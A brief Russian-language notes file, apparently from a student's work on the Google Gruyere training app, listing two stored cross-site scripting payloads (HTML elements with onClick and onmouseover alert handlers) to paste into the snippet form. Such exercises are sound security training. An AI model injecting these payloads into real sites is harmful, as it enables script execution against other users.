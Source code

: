 # Payloads для gruyere

## Payload 1

При переходе по ссылке `https://google-gruyere.appspot.com/437011974374534003250656556701248906630/newsnippet.gtl`. В поле ввода "Add a new snippet." можно вставить скрипт <div onClick="alert("1")"></div>

## Payload 2

При переходе по ссылке `https://google-gruyere.appspot.com/437011974374534003250656556701248906630/newsnippet.gtl`. В поле ввода "Add a new snippet." можно вставить скрипт (1') <a ONMOUSEOVER="alert(1)" href="#">прочитайте это!</a>
...

